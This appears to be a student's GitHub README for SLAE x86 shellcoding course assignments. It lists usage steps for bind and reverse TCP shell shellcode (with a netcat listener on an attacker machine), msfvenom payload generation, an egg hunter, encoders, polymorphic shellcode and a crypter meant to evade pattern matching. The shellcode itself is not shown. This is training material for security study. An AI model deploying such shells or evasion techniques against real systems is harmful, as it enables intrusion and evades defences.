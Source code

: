 <img src="SHELLCODING32.png" alt="SLAEx86" width="100"/>

# x86 Assembly Language and Shellcoding on Linux
# SLAEx86 : Student ID: PA-1191
### Assignment 1
Create a Shell Bind TCP Shellcode
- Binds to a port
- Execs shell on incoming connection
- Port number should be easily configurable
```
Implemeted the TCP Bind Shell shellcode 
Usage : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o bind_shell
=> ./bind_shell <PORT_TO_BIND>

Victim Machine => ./bind_shell 9999 

Attacker Machine => nc 127.0.0.1 9999

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-bind-shell-shellcode.html
```
### Assignment 2
Create a Shell Reverse Tcp Shellcode
- Reverse connect to configured IP and Port
- Execs shell on incoming connection
- IP and Port should be easily configurable
```
Implemeted the TCP Reverse Shell shellcode 
Usage : 

=> gcc shellcode_with_configurable_port.c -zexecstack -fno-stack-protector -o reverse_shell
=> ./reverse_shell <ATTACKER_IP TO CONNECT> <ATTACKER_PORT_TO_CONNECT>

Attacker Machine => nc -nlvp 8888

Victim Machine => ./reverse_shell 127.0.0.1 8888  

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-reverse-shell.html
```
### Assignment 3
Study about Egg Hunter Shellcode
- Create a working demo of the Egg Hunter
- Should be configurable for different payload
```
Usage: 

Open the  egghunter_c_wrapper.c and put the any shellcode in the shellcode array location
=> gcc egghunter_c_wrapper.c -o egghunter_c_wrapper.o -zexecstack -fno-stack-protector
=> ./egghunter_c_wrapper.o

Blog : https://oxhat.blogspot.com/2019/04/egg-hunter-shellcode.html
```
### Assignment 4
Create a custom encoding scheme  like "Insertion Encoder" we showed you
- Poc using execve-stack as the shellcode to encode your schema and execute
```
Implemented a custom encoder where each shellcode value is xored and duplicated to generate the final shellcode
Implemented a custom decoder to decode the encoded shellcode

Usage:
generating encoded shellcode 

Put the shellcode inside the custom_insertion_encoder.py
=> python custom_insertion_encoder.py

decoding and executing
copy and put the encoded shellcode inside the nasm file
=> nasm custom_insertion_decoder.nasm -felf32 -o custom_insertion_decoder.o
=> ld custom_insertion_decoder.o -o custom_insertion_decoder
=> ./custom_insertion_decoder

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-insertion-encoder-and.html
```
### Assignment 5
Take up at least 3 shellcode sample created using Msfpayload for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis
```
As msfpayload is outdate, all the payloads are created using msfvenom

1. Analysis of linux/x86/adduser shellcode

2. Analysis of linux/x86/chmod shellcode

3. Analysis of linux/x86/exec shellcode

Usage:

Shellcode Generation:
=> msfvenom --platform linux --arch x86 --payload linux/x86/adduser USER=slae PASS=slaeslae -i0 -f hex

Shellcode Analysis
=> echo -ne "Some shellcode \xaa\xbb" | ndisasm -u -
=> echo -ne "Some shellcode \xaa\xbb" | /opt/libemu/bin/sctest -vvv -Ss 10000 -G image.dot
=> dot image.dot -Tpng -o image.png

Blog : https://oxhat.blogspot.com/2019/04/analyzing-shellcode.html
```
### Assignment 6
Take upto 3 shellcode from shell-storm and create a polymorphic versions of them to beat patten matching
- The polymorphic versions cannot be larger 150% of the existing shellcode
- Bonus point for making it shorter in length than original
```
1. Implemented 2 polmorphic versions of exit() shellcode 

2. Implmented polymorphic version of cat /etc/password shellcode

3. Implemented a polymorphic and obfuscated version of commandline netcat 

Blog : https://oxhat.blogspot.com/2019/04/polymorphic-shellcodes.html
```
### Assignment 7
Create a custom crypter like the one shown in "crypters" video.
- Free to use any existing encryption schema.
- Can use any programming language.
```
1. Implemented a crypter with encrytion based on one time pad.

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-crypter.html 
```
### Additional Assignments
```
1. Implemented a shellcode for chdir() 
```
### Scripts
```
1. Implmented a bash automation script to generate shellcode from binary
usage: 

=>dump.sh binary
There is also an extended version of this inside the same directory.
Sometimes the script does not dump all the shellcode properly so the extended version is used.

2. Implemented an automation script to generate a C code with an embedded shellcode inside it.
usage :

=>python shellcode_template.py filename.c "\x41\x41\x41x\41"
```
